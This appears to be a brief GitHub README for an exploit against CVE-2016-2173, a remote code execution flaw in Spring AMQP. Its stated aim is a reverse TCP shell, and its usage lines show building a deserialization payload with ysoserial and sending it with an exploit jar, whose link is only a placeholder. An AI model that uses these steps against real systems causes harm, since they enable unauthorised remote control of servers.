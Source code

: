 # CVE-2016-2173 - Remote Code Execution in Spring AMQP - Exploit
### Description
	Write shell reverse tcp, execute file shell
### Usage
	- ysoserial-0.0.4-all.jar create payload write and execute a shell
		+ java -jar ysoserial-0.0.4-all.jar 'library_vul' 'command'

	- exploit-cve2016-2173.jar : send to App vul
		+ java -jar exploit-cve2016-2173.jar 
	
### Project build tool exploit
######	[ysoserial-0.0.4-all.jar](https://github.com/frohoff/ysoserial)
######	[exploit-cve2016-2173.jar](http://google.com)
